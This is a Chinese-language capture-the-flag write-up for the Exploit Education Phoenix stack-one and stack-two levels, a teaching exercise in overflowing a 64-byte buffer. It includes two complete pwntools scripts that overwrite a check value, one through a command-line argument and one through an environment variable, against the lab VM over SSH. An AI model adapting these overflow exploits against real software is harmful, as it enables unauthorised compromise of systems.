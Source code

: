 这两道非常简单，而且只有数据读入方式的区别。跟zero一样，只是对覆盖的数据有要求。

## stack-one

将程序第一个参数`strcpy`到字符串。

![image-20230215193259457](https://s2.loli.net/2023/02/15/P3IYOneKUiS6vNV.png)

在gdb中run后面直接接参数即可带上参数。

pwntools的sh.run可以接收字节数组作为参数，里面可包含启动参数。

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p32(0x496c5962)

sh = shell.run(b"/opt/phoenix/amd64/stack-one " + s)
print(sh.recvlines(2))
```

## stack-two

这次是写到环境变量里。

![image-20230215212035925](https://s2.loli.net/2023/02/15/NhRfz7Ciw8UavO4.png)

做到这里发现环境变量里写"\0"进去会出问题，我们要求写入的是32位数据，不应该用p64，用了就会自动补0，然后报错。

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p32(0x0d0a090a)
print(s)
s = s.decode()
print(s)
sh = shell.run(b"/opt/phoenix/amd64/stack-two", env={"ExploitEducation": s})
print(sh.recvlines(2))
```


